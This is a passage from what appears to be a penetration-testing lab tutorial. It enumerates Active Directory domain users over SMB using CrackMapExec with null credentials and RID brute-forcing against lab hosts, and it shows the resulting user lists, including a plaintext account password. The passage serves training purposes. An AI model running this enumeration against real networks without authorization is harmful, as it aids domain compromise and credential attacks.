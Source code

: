 ```
SMB         10.129.203.121  445    DC01             inlanefreight.htb\testaccount                    pwd: Testing123!
SMB         10.129.203.121  445    DC01             inlanefreight.htb\mathew                         
SMB         10.129.203.121  445    DC01             inlanefreight.htb\svc_mssql
```

We can use the exported file to get a list of all users, we will later use this list

### **Extracting Users List**

```shell-session
al1abb@htb[/htb]$ sed -i "s/'/\"/g" users.txt
al1abb@htb[/htb]$ jq -r '.[]' users.txt > userslist.txt
al1abb@htb[/htb]$ cat userslist.txt
Guest
carlos
grace
peter
alina
noemi
engels
kiosko
testaccount
mathew
svc_mssql
gmsa_adm
belkis
nicole
jorge
linda
shaun
diana
patrick
elieser
```

Here we could list all domain users and the password policy without any account. This configuration is not always present, but this will help us get started on our goal of compromising the domain if it is the case.

## Enumerating Users with rid bruteforce

The `--rid-brute` option can be used to determine the users of a domain. This option is particularly useful when dealing with a domain that has NULL Authentication but has certain query restrictions. By using this option, we can enumerate the users and other objects in the domain.

```shell-session
crackmapexec smb 10.129.204.172  -u '' -p '' --rid-brute
```

```shell-session
$ crackmapexec smb 10.129.204.172  -u '' -p '' --rid-brute
SMB         10.129.204.172  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.204.172  445    DC01             [+] Brute forcing RIDs
SMB         10.129.204.172  445    DC01             498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.204.172  445    DC01             500: INLANEFREIGHT\Administrator (SidTypeUser)
SMB         10.129.204.172  445    DC01             501: INLANEFREIGHT\Guest (SidTypeUser)
SMB         10.129.204.172  445    DC01             502: INLANEFREIGHT\krbtgt (SidTypeUser)
SMB         10.129.204.172  445    DC01             512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
SMB         10.129.204.172  445    DC01             513: INLANEFREIGHT\Domain Users (SidTypeGroup)
...SNIP...
SMB         10.129.204.172  445    DC01             1853: INLANEFREIGHT\abinateps (SidTypeUser)
SMB         10.129.204.172  445    DC01             1854: INLANEFREIGHT\bustoges (SidTypeUser)
```